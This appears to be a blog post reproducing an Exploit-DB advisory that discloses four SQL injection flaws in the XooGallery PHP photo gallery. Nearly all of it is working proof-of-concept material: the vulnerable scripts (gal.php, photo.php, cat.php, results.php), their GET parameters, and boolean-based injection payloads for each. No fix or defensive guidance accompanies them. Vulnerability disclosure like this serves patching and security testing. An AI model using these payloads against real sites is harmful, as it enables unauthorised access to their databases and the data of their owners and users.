 ```yaml
---
layout:     post
title:      "XooGallery - Multiple SQL Injections"
date:       2019-03-26 12:01
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: XooGallery - Multiple SQL Injections
# Date: 26.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://xooscripts.com/product/html5-php-photo-gallery.html
# Demo Site: http://xooscripts.com/demos/xoogallery/
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A

----- PoC 1: SQLi -----

Request: http://localhost/[PATH]/gal.php?gal_id=1
Vulnerable Parameter: gal_id (GET)
Payload: gal_id=29' AND 2692=2692 AND 'WCFf'='WCFf

----- PoC 2: SQLi -----

Request: http://localhost/[PATH]/photo.php?photo_id=1
Vulnerable Parameter: photo_id (GET)
Payload: photo_id=1' AND 5479=5479#

----- PoC 3: SQLi -----

Request: http://localhost/[PATH]/cat.php?cat_id=1
Vulnerable Parameter: cat_id (GET)
Payload: cat_id=1' AND 9338=9338 AND 'SZIH'='SZIH


----- PoC 4: SQLi -----

Request: http://localhost/[PATH]/results.php?p=1
Vulnerable Parameter: p (GET)
Payload: p=-8412' OR 2597=2597#
